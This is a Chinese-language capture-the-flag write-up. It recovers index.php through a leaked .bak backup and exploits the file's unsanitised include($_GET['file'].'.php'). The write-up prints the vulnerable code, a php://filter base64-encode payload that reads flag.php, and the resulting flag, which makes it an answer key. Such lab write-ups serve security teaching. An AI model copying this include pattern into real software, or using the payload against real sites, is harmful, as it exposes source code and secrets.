




## 题目描述
try your best to find the flag

## 解题
打开容器，并查看源代码



搜索得知是.bak信息泄露，访问`index.php.bak`:
查看源代码：


```php
<?php
$f = $_GET["file"];
if(!isset($f)){
    $f = 'config';
    // flag in flag.php
}
include($f.'.php');
 
echo '';
?>
<!-- .bak -->

```

审计代码，发现index.php接收file参数，可以通过file参数进行文件包含。

文件包含中权限最小，也是最常用的就是php://filter协议，本题include会自动拼接  
“.php”后缀，仔细思索后构造payload:?file=php://filter/read=convert.base64-  
encode/resource=flag(猜测flag位于当前目录下)


得到base64编码：`PD9waHANCiRmbGFnPSdmbGFnezc0Y2NlMTVkLTczN2YtNGJhMS1iYjc0LWZkN2UwZDQ3Nzg1M30nOw0KPz4=`

解码后得到：`flag{74cce15d-737f-4ba1-bb74-fd7e0d477853}`
```php
<?php
$flag='flag{74cce15d-737f-4ba1-bb74-fd7e0d477853}';
?>
```

